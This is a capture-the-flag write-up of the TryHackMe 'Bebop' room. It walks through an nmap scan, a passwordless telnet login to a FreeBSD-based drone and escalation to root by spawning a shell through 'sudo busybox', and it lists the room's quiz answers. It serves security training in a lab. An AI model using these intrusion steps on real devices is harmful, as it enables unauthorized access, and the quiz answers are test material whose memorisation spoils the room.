





**Room Link : https://tryhackme.com/room/bebop**

# Introduction

Bebop is a quick but fascinating box that demonstrates just how fragile some embedded systems can be. It specifically targets the Parrot Bebop drone, running a customized OS that—spoiler alert—isn't as secure as one might hope for a flying object.

The room is heavily inspired by the iconic DEFCON 23 talk **"Knocking my neighbor's kid's cruddy drone offline"**. The overarching concept of drone hacking is terrifyingly cool, and if you haven't seen the original talk, I highly recommend watching it before diving in. It gives great context to what we are about to do.

<iframe width="900" height="500" src="https://www.youtube.com/embed/5CzURm7OpAA" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
<br>
<br>

# Task 1: Takeoff!

**1. Deploy the machine.**
> Done.

**2. What is your codename?**
> `pilot`


# Task 2: Manoeuvre

## Reconnaissance

I started by scanning the target as always to identify open ports and running services. 

```bash
nmap -sV -sC -T4 10.66.170.132 -oN nmap-scan
```

**Nmap Results:**

```plaintext
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.5 (FreeBSD 20170903; protocol 2.0)
| ssh-hostkey: 
|   2048 5b:e6:85:66:d8:dd:04:f0:71:7a:81:3c:58:ad:0b:b9 (RSA)
|_  256 96:fc:cc:3e:69:00:79:85:14:2a:e4:5f:0d:35:08:d4 (ED25519)
23/tcp open  telnet  BSD-derived telnetd
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

**Analysis:** The scan reveals that the drone is running a BSD-based operating system. Interestingly, Port 23 (Telnet) is open. Telnet is an insecure, legacy protocol that transmits data in cleartext. This is highly unusual for a modern device and serves as our primary vector for investigation.

## Exploitation

### Initial Access via Telnet

Given the open Telnet port and the codename **"pilot"** obtained in Task 1, I attempted to log in directly. I used the `-l` flag to specify the user.

```bash
telnet -l pilot 10.66.170.132
```
**Output:**

```plaintext
Trying 10.66.170.132...
Connected to 10.66.170.132.
Escape character is '^]'.
FreeBSD 11.2-STABLE (GENERIC) #0 r345837: Thu Apr  4 02:07:22 UTC 2019

Welcome to FreeBSD!
[pilot@freebsd ~]$
```
We successfully established a session without needing a password. This confirms the premise that the drone's OS is highly insecure.

### Capturing the User Flag

Once inside, I listed the files in the current directory and found user.txt.



I read the file to capture the flag.



> **Answer 1**
>
>> What is the User Flag?
>
>> `THM{REDACTED}`

### Privilege Escalation

Pretty much the first thing you usually do when aiming for privesc on a Linux computer is look to see what you can run as sudo.
Running `sudo -l` and see if we can run anything as root:



> [!NOTE]
> `BusyBox`: is software that provides several stripped-down Unix tools in a single executable file. It is often found in embedded devices like drones to save disk space. Since we can run busybox as root, we can execute any of its internal commands (like sh) with root privileges.

### Enumerating BusyBox Capabilities

To see exactly which commands (applets) were available inside this BusyBox binary, I ran it without arguments:

```bash
sudo busybox
```


I spotted sh in the list of defined functions. This confirms we can spawn a shell.

### Rooting the Drone

I executed the sh command through the sudo-enabled busybox binary. Since busybox runs as root, the shell it spawns inherits those privileges.



Success! I verified access to the root directory and captured the final flag.

```bash
# cat /root/root.txt
THM{REDACTED}
```
# Task 3: Quiz!

1. What is the low privileged user?
> `pilot`

2. What binary was used to escalate privileges?
> `busybox`

3. What service was used to gain an initial shell?
> `telnet`

4. What Operating System does the drone run?
> `FreeBSD`

# Conclusion

Bebop demonstrated the fragility of embedded systems. By exploiting an unsecured Telnet service and a misconfigured `busybox` binary, we went from zero access to root privileges in minutes. This room serves as a stark reminder that even "toy" drones require robust security configurations, as they are effectively flying computers that can be easily compromised if left wide open.

**Happy Hacking :)**

